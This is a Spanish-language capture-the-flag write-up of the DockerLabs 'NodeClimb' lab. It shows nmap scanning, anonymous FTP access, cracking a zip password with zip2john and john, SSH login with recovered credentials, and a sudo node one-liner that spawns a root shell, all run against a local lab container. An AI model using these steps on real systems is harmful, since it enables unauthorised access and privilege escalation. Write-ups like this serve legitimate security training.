 ```yaml
---
title: DockerLabs - NodeClimb
summary: "Write-up del laboratorio NodeClimb de DockerLabs"
author: elcybercurioso
date: 2025-10-26 13:00
categories: [Post, DockerLabs]
tags: [fácil, ftp, ssh, john, zip2john]
media_subpath: "/assets/img/posts/dockerlabs_nodeclimb"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-26 12:31 GMT
Initiating ARP Ping Scan at 12:31
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:31, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:31
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:31, 10.22s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.51 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ nmap -sCV -p21,22 172.17.0.2                                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-26 12:32 GMT
Nmap scan report for 172.17.0.2
Host is up (0.000072s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.31 seconds
```

## explotación

Del escaneo de puertos encontramos que podemos conectarnos de manera anónima al servidor FTP con el usuario `anonymous`, y sin indicar contraseña:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:elcybercurioso): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
```

Dentro del servidor FTP, hay un comprimido .zip que podemos descargarnos para echarle un vistazo:

```bash
ftp> get secretitopicaron.zip
local: secretitopicaron.zip remote: secretitopicaron.zip
229 Entering Extended Passive Mode (|||10628|)
150 Opening BINARY mode data connection for secretitopicaron.zip (242 bytes).
100% |******************************************************************************************************************************************************|   242        1.22 MiB/s    00:00 ETA
226 Transfer complete.
242 bytes received in 00:00 (169.16 KiB/s)
```

Tratamos de abrirlo para descomprimir su contenido, pero vemos que nos pida una contraseña para poder hacerlo:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ 7z x secretitopicaron.zip 

7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=en_GB.UTF-8 Threads:128 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 242 bytes (1 KiB)

Extracting archive: secretitopicaron.zip
--
Path = secretitopicaron.zip
Type = zip
Physical Size = 242

    
Enter password (will not be echoed):
ERROR: Wrong password : password.txt
                   
Sub items Errors: 1

Archives with Errors: 1

Sub items Errors: 1
```

Podemos obtener el hash del comprimido .zip para sacar la contraseña por fuerza bruta. Para ello emplearemos la herramienta `zip2john`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ zip2john secretitopicaron.zip > hash
ver 1.0 efh 5455 efh 7875 secretitopicaron.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=52, decmplen=40, crc=59D5D024 ts=4C03 cs=4c03 type=0
```

Teniendo el hash, sacamos la contraseña con `john`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ john -w=/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
p********        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2025-10-26 12:40) 20.00g/s 327680p/s 327680c/s 327680C/s 123456..xaxaxa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Volvemos a abrir el comprimido, pero ahora indicamos la contraseña obtenida:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ 7z x secretitopicaron.zip                                                                    

7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=en_GB.UTF-8 Threads:128 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 242 bytes (1 KiB)

Extracting archive: secretitopicaron.zip
--
Path = secretitopicaron.zip
Type = zip
Physical Size = 242

    
Would you like to replace the existing file:
  Path:     ./password.txt
  Size:     0 bytes
  Modified: 2024-07-05 09:32:05
with the file from archive:
  Path:     password.txt
  Size:     40 bytes (1 KiB)
  Modified: 2024-07-05 09:32:05
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? Y

                   
Enter password (will not be echoed):
Everything is Ok

Size:       40
Compressed: 242
```

En el directorio vemos que nos ha generado un fichero llamado `password.txt`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ ls
hash  password.txt  secretitopicaron.zip
```

Dentro hay unas credenciales, las cuales resultan ser para acceder por SSH a la máquina:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ cat password.txt                                           
mario:laKon***************************
```

## escalada de privilegios

Tras acceder, vemos que los permisos SUDO del usuario permiten ejecutar con `node` el script que se encuentra en la ubicación `/home/mario/script.js`:

```bash
mario@c7c3692488dd:~$ sudo -l
Matching Defaults entries for mario on c7c3692488dd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on c7c3692488dd:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Comprobamos que tenemos permisos para modificarlo, ya que el propietario de dicho fichero es el usuario con el que estamos logueados:

```bash
mario@c7c3692488dd:~$ ls -l 
total 0
-rw-r--r-- 1 mario mario 0 Jul  5  2024 script.js
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/node/#sudo) encontramos que podemos obtener una consola invocando un cierto comando:

![Desktop View](/20251026134556.webp){: width="972" height="589" .shadow}

Modificamos el fichero con la instrucción que nos indicaban:

```bash
mario@c7c3692488dd:~$ cat script.js 
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

Al ejecutar el comando con permisos SUDO, vemos que hemos podido invocar una consola como el usuario `root`:

```bash
mario@c7c3692488dd:~$ sudo /usr/bin/node /home/mario/script.js
# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>